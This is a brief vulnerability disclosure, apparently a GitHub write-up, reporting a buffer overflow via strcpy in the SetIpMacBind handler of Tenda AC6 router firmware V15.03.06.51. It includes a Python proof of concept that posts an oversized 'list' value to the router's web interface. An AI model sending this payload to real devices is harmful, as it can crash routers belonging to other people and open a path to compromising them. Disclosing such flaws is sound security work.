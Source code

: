 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](4.png)


get value from list, then static_list->list, finally call strcpy, cause buff overflow

but we must send bindnum between 0-33




## POC
```
url = "http://192.168.1.13/goform/SetIpMacBind"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'list': payload , 'bindnum': 1})
``` 
